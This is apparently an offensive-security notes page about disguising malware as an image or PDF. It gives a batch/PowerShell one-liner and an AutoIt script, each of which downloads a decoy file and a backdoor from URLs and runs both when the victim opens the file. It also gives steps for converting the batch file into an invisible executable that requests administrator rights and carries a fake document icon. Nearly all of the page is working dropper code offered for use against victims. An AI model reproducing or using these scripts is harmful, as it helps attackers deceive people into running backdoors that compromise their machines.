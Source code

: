 # Embedding malicious files in Images or PDF

## Embedding Files using batch (First Method)

```batch
@echo off

set files='pdf/image_url','url_of_our_evil_file/Backdoor_URL'

powershell "(%files%)|foreach{$fileName='%TEMP%'+(Split-Path -Path $_ -Leaf);(new-object System.Net.WebClient).DownloadFile($_,$fileName);Invoke-Item $fileName;}"
```

* Using the following **batch script** following by the **URL's** order and **delivering to the victim** we will see that when the victim opens this file, the **pdf/image** will pop up first and the evil program will be executed after.

## Embedding Files using Autoit (Second Method)

```c
#include <StaticConstants.au3>
#include <WindowsConstants.au3>

Local $urls = "image_URL,Backdoor_URL"

Local $urlsArray = StringSplit($urls, ",", 2 )

For $url In $urlsArray
	$sFile = _DownloadFile($url)
	shellExecute($sFile)

Next

Func _DownloadFile($sURL)
    Local $hDownload, $sFile
    $sFile = StringRegExpReplace($sURL, "^.*/", "")
    $sDirectory = @TempDir & $sFile
    $hDownload = InetGet($sURL, $sDirectory, 17, 1)
    InetClose($hDownload)
    Return $sDirectory
EndFunc   ;==>_GetURLImage
```

* Use this script and add all the malicious links you want.

<figure><img src="../../../../.gitbook/assets/autoit1.png" alt=""><figcaption></figcaption></figure>

* Once this its compile, when the victims execute the file, it will execute at the same time all the files.
* This does the same that the first method does but without using batch and uploading straight the icon of the program in the autoit program.&#x20;

## Converting Bat to exe

### Installation

* Use wine to execute the program in Linux, you can use it in windows as well.

```java
sudo apt update
sudo apt upgrade
git clone https://github.com/tokyoneon/B2E
cd B2E
unzip Bat_To_Exe_Converter.zip
wine  Bat_To_Exe_Converter_\(Installer\).exe
```

### Usage

* Always select one of the invisible options (Windows 64 bits invisible).
* You can click on _**Requests Administrator privileges**_ to get access with admin privileges.
* The Icon option lets you set an Icon to your evil file like pdf, word, etc.

<figure><img src="../../../../.gitbook/assets/bat_to_exe1.png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/tokyoneon/B2E/blob/master/Bat_To_Exe_Converter.zip" %}
